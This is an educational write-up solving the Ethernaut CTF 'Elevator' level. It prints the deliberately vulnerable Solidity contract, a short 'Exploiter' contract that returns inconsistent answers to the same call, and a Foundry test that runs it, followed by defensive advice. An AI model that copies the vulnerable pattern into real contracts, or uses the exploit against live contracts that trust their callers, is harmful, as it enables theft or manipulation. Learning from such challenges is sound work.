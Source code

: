 ```yaml
---
title: 'Ethernaut Challenge #11 Solution — Elevator'
excerpt: This is Part 11 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to reach the top floor of the building.
coverImage:
  url: '/assets/blog/ethernaut/elevator.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2020-07-21T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/elevator.svg'
---
```


This is Part 11 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #11: Elevator

> This elevator won't let you reach the top of your building. Right?
> Things that might help:
>
> - Sometimes solidity is not good at keeping promises.
> - This `Elevator` expects to be used from a `Building`.
>
> Level author: [Martin Triay](https://github.com/martriay)

The goal of this challenge is to be able to reach the top floor of the building.

## Study the contracts

The code of the Challenge's Level is pretty simple, let's dump it here and study it

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}

```

The `Elevator` is a pretty simple contract.

It has two state variables:

- `bool public top` a boolean variable that will state if the elevator has arrived to the top of the building. It is initialized as `false` by default
- `uint256 public floor` an integer variable that will state to which floor the elevator has arrived. It is initialized to `0` by default

Then we have the `goTo` function that takes a `uint256 _floor`. This function is expected to be called by a smart contract that implements the `Building` interface.

Inside the function, it checks the `Building.isLastFloor` result that **should** state whether a floor is the top of the building or not.

If the floor **is not** the top of the building, the function update the `floor` state variable and update also the `top` state variable that should be `false` given that we entered the `if` state only because the same `building.isLastFloor` function has returned `false` just two lines of code above, **right**?

This challenge teaches two important lessons:

- **never, ever, trust an external actor as an assumption**
- **better safe than sorry**

The `msg.sender` (the Building contract) is an external actor. We only know that it must implement the `Building` interface, so it must:

- have a function called `isLastFloor`
- it takes a `uint256` input parameter
- it will return a `bool`

But in reality, apart from this information, we don't know what's inside that contract. How can we be certain that it will **really** return `true` **only** if the floor is the real top of the building?

My two cents suggestions would be:

- Only integrate with external contract that have a verified source code and that you can read what they do and with which other external service they will integrate
- If the external service is upgradable, you must really trust that the owner of the service will not act maliciously in the future
- Even if you trust the external actor, put some safeguards in the contract like some kind of pausable and emergency logic

## Solution code

The solution code is pretty simple, what we must do is to trick the `Elevator` to think that we have not reached the top of the building when it first calls the `isLastFloor` function and then return `true` (we have reached the top) when it calls it the second time.

Here's the code of the `Building` contract

```solidity
contract Exploiter is Building {
    Elevator private victim;
    address private owner;
    bool private firstCall;

    constructor(Elevator _victim) public {
        owner = msg.sender;
        victim = _victim;
        firstCall = true;
    }

    function goTo(uint256 floor) public {
        victim.goTo(floor);
    }

    function isLastFloor(uint256) external override returns (bool) {
        // if the Elevator call us the first time return `false` to trick him
        // but return `true` if the second time to exploit it
        if (firstCall) {
            firstCall = false;
            return false;
        } else {
            return true;
        }
    }
}
```

And here's the code of the test itself

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the contract
    Exploiter exploiter = new Exploiter(level);

    // trigger the exploit
    exploiter.goTo(0);

    // assert that the elevator has reached the top of the building
    assertEq(level.top(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Elevator.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Elevator.t.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
